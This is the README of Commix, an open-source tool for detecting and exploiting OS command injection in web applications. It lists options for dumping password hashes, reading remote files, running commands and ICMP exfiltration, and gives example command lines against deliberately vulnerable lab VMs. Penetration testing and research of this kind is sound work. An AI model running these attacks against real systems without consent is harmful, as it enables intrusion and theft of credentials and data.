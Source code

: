 	                                       __
	   ___    ___     ___ ___     ___ ___ /\_\   __  _ 
	  /'___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\
	 /\ \__//\ \L\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
	 \ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\
	  \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ { v0.1b }

	+--
	Automated All-in-One OS Command Injection and Exploitation Tool
	Copyright (c) 2015 Anastasios Stasinopoulos (@ancst)
	+--

#General Information

Commix (short for [comm]and [i]njection e[x]ploiter) has a simple environment and it can be used, from web developers, penetration testers or even security researchers to test web applications with the view to find bugs, errors or vulnerabilities related to command injection attacks. By using this tool, it is very easy to find and exploit a command injection vulnerability in a certain vulnerable parameter or string. Commix is written in Python programming language.


#Disclaimer
The tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes!!


#Requirements
[Python](http://www.python.org/download/) version **2.6.x** or **2.7.x** is required for running this program.

#Installation

Commix comes pre-installed on the following Linux distributions:

- [BlackArch](http://blackarch.org/)

Download commix by cloning the Git repository:

    git clone https://github.com/stasinopoulos/commix.git commix


#Usage
    Usage: python commix.py [options]

####Options
    -h, --help            Show help and exit.
    --verbose             Enable the verbose mode.
    --install             Install 'commix' to your system.
    --version             Show version number and exit.
    --update              Check for updates (apply if any) and exit.

####Target
    This options has to be provided, to define the target URL.

    --url=URL           Target URL
    --url-reload        Reload target URL after command execution.

####Request
    These options can be used, to specify how to connect to the target
    URL.

    --host=HOST         HTTP Host header.
    --referer=REFERER   HTTP Referer header.
    --user-agent=AGENT  HTTP User-Agent header.
    --cookie=COOKIE     HTTP Cookie header.
    --random-agent      Use a randomly selected HTTP User-Agent header.
    --headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
    --proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
    --auth-url=AUTH_..  Login panel URL.
    --auth-data=AUTH..  Login parameters and data.
    --auth-type=AUTH..  HTTP authentication type (e.g. 'basic').
    --auth-cred=AUTH..  HTTP Authentication credentials (e.g. 'admin:admin').

####Enumeration
    These options can be used, to enumerate the target host.

    --current-user      Retrieve current user name.
    --hostname          Retrieve current hostname.
    --is-root           Check if the current user have root privs.
    --sys-info          Retrieve system information.
    --users             Retrieve system users.
    --passwords         Retrieve system users password hashes.
    --privileges        Retrieve system users privileges.

####File access:
    These options can be used to access files on the target host.

    --file-read=FILE..  Read a file from the target host.

####Injection
    These options can be used, to specify which parameters to inject and
    to provide custom injection payloads.

    --data=DATA         POST data to inject (use 'INJECT_HERE' tag to specify
                        the testable parameter).
    --suffix=SUFFIX     Injection payload suffix string.
    --prefix=PREFIX     Injection payload prefix string.
    --technique=TECH    Specify a certain injection technique : 'classic',
                        'eval-based', 'time-based' or 'file-based'.
    --maxlen=MAXLEN     The length of the output on time-based technique
                        (Default: 10000 chars).
    --delay=DELAY       Set Time-delay for time-based and file-based
                        techniques (Default: 1 sec).
    --base64            Use Base64 (enc)/(de)code trick to prevent false-
                        positive results.
    --tmp-path=TMP_P..  Set remote absolute path of temporary files directory.
    --root-dir=SRV_R..  Set remote absolute path of web server's root
                        directory (Default: /var/www/).
    --icmp-exfil=IP_..  Use the ICMP exfiltration technique (e.g.
                        'ip_src=192.168.178.1,ip_dst=192.168.178.3').
    --alter-shell       Use an alternative os-shell (Python). Available only
                        for 'tempfile-based' injections.
    --os-cmd=OS_CMD     Execute a single operating system command.


####Usage Examples
**Exploiting [Damn Vulnerable Web App] (http://www.dvwa.co.uk/):**

    python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
    
**Exploiting [php-Charts 1.0] (http://www.exploit-db.com/exploits/25496/) using injection payload suffix & prefix string:**

    python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="'" --suffix="//"
    
**Exploiting [OWASP Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae) using extra headers and HTTP proxy:**

    python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --data="target_host=INJECT_HERE" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"

**Exploiting [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/) using ICMP exfiltration technique :**

    su -c "python commix.py --url="http://192.168.178.8/debug.php" --data="addr=127.0.0.1" --icmp-exfil="ip_src=192.168.178.5,ip_dst=192.168.178.8""

**Exploiting [Kioptrix: 2014 (#5)] (https://www.vulnhub.com/entry/kioptrix-2014-5,62/) using custom user-agent and specified injection technique:**

    python commix.py --url="http://192.168.178.6:8080/phptax/drawimage.php?pfilez=INJECT_HERE&pdf=make" --user-agent="Mozilla/4.0 Mozilla4_browser" --technique="file-based" --root-dir="/"


####Command injection testbeds
A collection of pwnable VMs, that includes web apps vulnerable to command injections.
- [Damn Vulnerable Web App] (http://www.dvwa.co.uk/)
- [OWASP: Mutillidae] (https://www.owasp.org/index.php/Category:OWASP_Mutillidae)
- [bWAPP: bee-box (v1.6)] (http://www.itsecgames.com/)
- [Persistence] (https://www.vulnhub.com/entry/persistence-1,103/)
- [Pentester Lab: Web For Pentester] (https://www.vulnhub.com/entry/pentester-lab-web-for-pentester,71/)
- [Pentester Academy: Command Injection ISO: 1] (https://www.vulnhub.com/entry/command-injection-iso-1,81/)
- [SpiderLabs: MCIR (ShelLOL)](https://github.com/SpiderLabs/MCIR/tree/master/shellol)
- [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)
- [w3af-moth] (https://github.com/andresriancho/w3af-moth/)
- [...]

####Exploitation Demos
- [Exploiting DVWA](https://www.youtube.com/watch?v=PT4uSTCxKJU)
- [Exploiting bWAPP](https://www.youtube.com/watch?v=zqI8NcHfboo)

[![][img]][txt]
[img]: https://cdn3.iconfinder.com/data/icons/peelicons-vol-1/50/Twitter-32.png (Follow @commixproject :))
[txt]: http://www.twitter.com/commixproject
